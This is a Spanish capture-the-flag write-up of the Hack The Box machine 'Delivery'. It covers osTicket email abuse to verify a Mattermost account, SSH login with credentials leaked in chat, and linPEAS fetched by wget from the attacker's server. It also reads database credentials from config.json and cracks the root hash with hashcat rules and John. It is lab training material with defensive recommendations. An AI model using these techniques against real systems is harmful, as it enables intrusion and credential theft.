# Delivery — Hack The Box (práctica CPTS)

**Plataforma:** Hack The Box
**Dificultad:** 🟢 Fácil
**SO:** Linux
**Certificación:** Práctica adicional para el CPTS (Certified Penetration Testing Specialist)
**Fecha de resolución:** 2026
**Técnicas:** Nmap · osTicket (Support Center) · Mattermost · Verificación de email vía ticket de soporte · Filtración de credenciales en chat interno · LinPEAS · `config.json` de Mattermost · MySQL · Hashcat (regla `best66`) + John the Ripper → root
**Idioma:** Español — [🇬🇧 English version](./Delivery_Writeup_EN.md)

---

## Índice
1. [Reconocimiento](#1-reconocimiento)
2. [Enumeración web — osTicket y Mattermost](#2-enumeración-web--osticket-y-mattermost)
3. [Acceso inicial — el email del ticket como cuenta de Mattermost](#3-acceso-inicial--el-email-del-ticket-como-cuenta-de-mattermost)
4. [Obtención de shell](#4-obtención-de-shell)
5. [Post-explotación y flags](#5-post-explotación-y-flags)
6. [Lección aprendida](#6-lección-aprendida)
7. [Glosario de herramientas y comandos](#7-glosario-de-herramientas-y-comandos)

---

## 1. Reconocimiento

```bash
ping -c 1 10.129.69.11
```

> 🛠️ **`ping`** — envía paquetes ICMP para comprobar si un host está activo y estimar su SO por el TTL. Un TTL de **63** (partiendo de 64) es la firma clásica de **Linux**.



Escaneo completo de puertos TCP:

```bash
nmap -sS -Pn -vvv --min-rate 5000 --open -n -p- 10.129.69.11 -oN AllPorts
```


Resumido con una herramienta propia de enumeración:

```bash
enum-nmap AllPorts
```

> 🛠️ **`enum-nmap`** — script propio que parsea la salida de Nmap y muestra un resumen limpio (IP, TTL, SO, puertos) listo para el siguiente escaneo dirigido.


Tres puertos abiertos: **22** (ssh), **80** (http) y **8065** (no estándar). Escaneo de versión:

```bash
nmap -sS -Pn -sCV -T5 -n -p22,80,8065 -oN Ports 10.129.69.11
```


| Puerto | Servicio | Detalle |
|--------|----------|---------|
| 22 | OpenSSH 7.9p1 (Debian) | — |
| 80 | nginx 1.14.2 | Título "Welcome" |
| 8065 | Golang `net/http` server | Cabeceras propias de **Mattermost** |

> 💡 Un servidor HTTP en Go con esas cabeceras concretas (`X-Version-Id`, política CSP hacia `cdn.rudderlabs.com`) es la firma característica de **Mattermost**, una plataforma de chat de equipo self-hosted (alternativa a Slack).

## 2. Enumeración web — osTicket y Mattermost

La web del puerto 80 enlaza a un **HELPDESK**:



```
http://helpdesk.delivery.htb
```


Añadimos ambos dominios a `/etc/hosts`:

```
10.129.69.11    delivery.htb helpdesk.delivery.htb
```

> 🛠️ **`/etc/hosts`** — fichero de resolución de nombres local en Linux. Es imprescindible cuando una web usa **vhosts** (varios dominios en la misma IP): sin esta entrada, el navegador no sabría a qué dirección IP resolver el nombre.



`helpdesk.delivery.htb` resulta ser un **osTicket** (sistema de tickets de soporte de código abierto), y `delivery.htb:8065` es el login de **Mattermost**:


> 💡 Dos aplicaciones aparentemente independientes, pero que van a terminar conectadas entre sí de una forma poco evidente.

## 3. Acceso inicial — el email del ticket como cuenta de Mattermost

Abrimos un ticket de prueba:



El sistema confirma la creación con un **número de ticket** y una dirección de correo asociada, formato `<id_ticket>@delivery.htb`:



> 🛠️ **Reenvío de correo por ticket (osTicket)** — funcionalidad estándar de los sistemas de tickets: cualquier email recibido en `<id>@delivery.htb` se añade automáticamente al hilo de ese ticket, para que el usuario pueda ampliar información por correo sin volver a la web. En la práctica, esa dirección se comporta como un **buzón que nosotros mismos podemos leer**, sin controlar ningún servidor de correo real.

Con el número de ticket consultamos su estado sin necesidad de cuenta:


En **Mattermost**, creamos una cuenta nueva usando esa misma dirección de correo del ticket como email de registro:


Mattermost exige verificar el correo antes de dejarnos entrar:



Como el correo de verificación se envía a `<id_ticket>@delivery.htb`, y esa dirección reenvía cualquier mensaje al hilo del ticket, **osTicket nos entrega el enlace de verificación directamente**, sin necesidad de acceso a ningún servidor de correo real:



> 💡 Esta es la vulnerabilidad central de la máquina: un sistema de tickets que reenvía correo a un buzón "propio" del ticket, combinado con un segundo servicio (Mattermost) que permite registrarse con **cualquier** dirección de correo sin comprobar previamente que pertenece al usuario, permite verificar una cuenta usando una dirección que en realidad no se controla — solo hace falta ser dueño del ticket correspondiente en el primer sistema. Es un fallo de **confianza cruzada entre servicios**, no una vulnerabilidad técnica en ninguno de los dos por separado.

Al visitar el enlace, la cuenta queda verificada:



## 4. Obtención de shell

Dentro de Mattermost, en el canal **Internal**, hay una conversación entre desarrolladores donde `root` comparte credenciales del servidor y, sin darse cuenta de lo contradictorio del aviso, revela un patrón de contraseñas reutilizado:



```
@developers Please update theme to the OSTicket before we go live. Credentials to the server are mailderiverer:Youve_G0t_Mail!
Also please create a program to help us stop re-using the same passwords everywhere.... Especially those that are a variant of "PleaseSubscribe!"

PleaseSubscribe! may not be in RockYou but if any hacker manages to get our hashes, they can use hashcat rules to easily crack all variations of common words or phrases.
```

> 💡 Dos filtraciones en un mismo mensaje: unas credenciales SSH directas (`mailderiverer:Youve_G0t_Mail!`) y una pista explícita sobre el patrón de contraseñas del equipo (variaciones de `PleaseSubscribe!`), que se aprovechará más adelante para la escalada a root.

Nos conectamos por SSH:

```bash
ssh mailderiverer@10.129.69.11
```



```bash
ls -la
```


Confirmamos la existencia de `user.txt` en el home de `mailderiverer`.

### Escalada de privilegios

Servimos **LinPEAS** desde nuestra máquina atacante:

```bash
python3 -m http.server 8080
```

> 🛠️ **LinPEAS** — script de la suite PEASS-ng que enumera automáticamente un sistema Linux en busca de vías de escalada de privilegios (binarios SUID, cron jobs, credenciales en ficheros de configuración, permisos mal asignados, etc.), resaltando en colores los hallazgos más prometedores.



```bash
wget http://10.10.15.31:8080/linpeas.sh
chmod +x linpeas.sh
```


```bash
./linpeas.sh -q | tee output.txt
```

> 🛠️ **`-q`** (*quiet*) reduce el ruido visual de LinPEAS. **`tee`** muestra la salida en pantalla en tiempo real **y**, simultáneamente, la guarda en un fichero (`output.txt`), en vez de tener que elegir entre verla o redirigirla.



LinPEAS señala repetidamente la ruta `/opt/mattermost` como interesante:

```bash
cd /opt/mattermost
ls
```



Revisamos su fichero de configuración:

```bash
cat config/config.json
```


La sección `SqlSettings` contiene la cadena de conexión a la base de datos, con credenciales en texto plano:


```
"DataSource": "mmuser:Crack_The_MM_Admin_PW@tcp(127.0.0.1:3306)/mattermost?charset=utf8mb4,utf8..."
```

Nos conectamos a MySQL con esas credenciales:

```bash
mysql -u mmuser -p
```

> 🛠️ **`mysql -u <user> -p`** — cliente de línea de comandos de MySQL/MariaDB; `-p` sin valor pegado hace que pida la contraseña de forma interactiva.



```sql
show databases;
use mattermost;
show tables;
```




La tabla `Users` contiene los hashes de contraseña de todas las cuentas de Mattermost:

```sql
select * from Users;
```



Localizamos la fila de **`root`** (`root@delivery.htb`) y copiamos su hash bcrypt (`$2a$10$...`).

### Crackeando el hash de root con la pista del chat

```bash
echo 'PleaseSubscribe!' > wordlistbase.txt
```



Generamos variaciones de esa palabra aplicando una **regla de Hashcat** (conjunto de transformaciones típicas: mayúsculas, sufijos numéricos, inversión de caracteres...), usando `hashcat` únicamente como **generador de wordlists**, sin crackear nada todavía:

```bash
hashcat --stdout -r /usr/share/hashcat/rules/best66.rule wordlistbase.txt > wordlist.txt
```

> 🛠️ **`hashcat --stdout -r <regla> <wordlist>`** — sin indicar un modo de hash (`-m`) ni un hash objetivo, Hashcat funciona en modo generador: aplica la regla indicada (`best66.rule`, incluida en la distribución de Hashcat) a cada palabra del diccionario base y escribe todas las variantes resultantes por la salida estándar. Es una técnica de ataque de diccionario **basado en reglas**, mucho más eficiente que probar contraseñas al azar cuando ya se conoce un patrón.


```bash
cat wordlist.txt
```


Guardamos el hash de `root` en un fichero:


Y lo atacamos con **John the Ripper** usando el diccionario recién generado:

```bash
john --wordlist=wordlist.txt hash
```

> 🛠️ **`john --wordlist=<fichero> <hash>`** — ejecuta John the Ripper en modo diccionario: prueba cada palabra del fichero indicado contra el hash, detectando automáticamente el formato del hash (bcrypt `$2a$` en este caso).


La contraseña cae:


```
PleaseSubscribe!21
```

```bash
su root
whoami
```



`whoami` confirma acceso como **root**.

## 5. Post-explotación y flags

Con shell de root confirmada, el compromiso total del sistema queda acreditado.

> 🔒 El contenido exacto de `user.txt` y `root.txt` no se publica en este writeup a propósito, para no regalar la respuesta a quien esté practicando esta misma máquina — el camino completo hasta cada uno queda documentado en las secciones §4 y §5.

## 6. Lección aprendida

| Vulnerabilidad | Dónde | Impacto |
|----------------|-------|---------|
| Verificación de propiedad de correo basada en un buzón "prestado" por otro sistema (ticket de osTicket) | osTicket + Mattermost | Permite crear y verificar una cuenta usando una dirección de correo que en realidad no se controla |
| Credenciales SSH compartidas en texto plano en un chat de equipo | Canal Internal de Mattermost | Cualquiera con acceso al chat obtiene acceso directo al servidor |
| Credenciales de base de datos en texto plano en el fichero de configuración de la aplicación | `/opt/mattermost/config/config.json` | Acceso completo a la base de datos, incluidos los hashes de todos los usuarios |
| Patrón de contraseñas reutilizado y anunciado (irónicamente) como "a evitar" en el propio chat de la empresa | Contraseña de `root` (variante de `PleaseSubscribe!`) | Reduce drásticamente el espacio de búsqueda para un ataque de diccionario dirigido |

## Recomendaciones defensivas

- No permitir que un sistema de tickets reenvíe correo a un buzón cuyo contenido pueda ser leído por el propio solicitante del ticket, y no usar esas direcciones para verificar identidad en otros servicios.
- Exigir verificación real de propiedad del correo antes de activar cuentas en cualquier servicio.
- No compartir credenciales de servidores en canales de chat, ni siquiera internos — usar un gestor de secretos.
- No almacenar contraseñas de bases de datos en texto plano en ficheros de configuración accesibles por el usuario de la aplicación.
- No reutilizar patrones de contraseña predecibles entre cuentas, y menos aún advertir del patrón exacto en un canal accesible.
- Auditar periódicamente qué información sensible circula por canales de comunicación interna (chats, tickets, correos).

## 7. Glosario de herramientas y comandos

| Herramienta / comando | Para qué sirve |
|------------------------|-----------------|
| `ping` | Comprobar que un host está activo y estimar su SO por el TTL |
| `nmap` | Escanear puertos, servicios y versiones de un host |
| `/etc/hosts` | Resolución de nombres local, imprescindible para navegar por vhosts en laboratorios |
| **osTicket** | Sistema de tickets de soporte de código abierto; puede reenviar correo a una dirección `<ticket>@dominio` |
| **Mattermost** | Plataforma de chat de equipo self-hosted (alternativa a Slack) |
| `ssh` | Cliente de acceso remoto cifrado |
| **LinPEAS** | Script de enumeración automática de vectores de escalada de privilegios en Linux |
| `tee` | Mostrar una salida en pantalla y guardarla en un fichero simultáneamente |
| `mysql -u <user> -p` | Cliente de línea de comandos para MySQL/MariaDB |
| `hashcat --stdout -r <regla> <wordlist>` | Generar variaciones de contraseñas aplicando una regla de Hashcat, sin necesidad de un hash objetivo |
| `john --wordlist=<fichero> <hash>` | Atacar un hash por diccionario con John the Ripper |

---

*Escrito por [Arabot](https://github.com/Caan31) · Hack The Box · práctica CPTS · 2026*
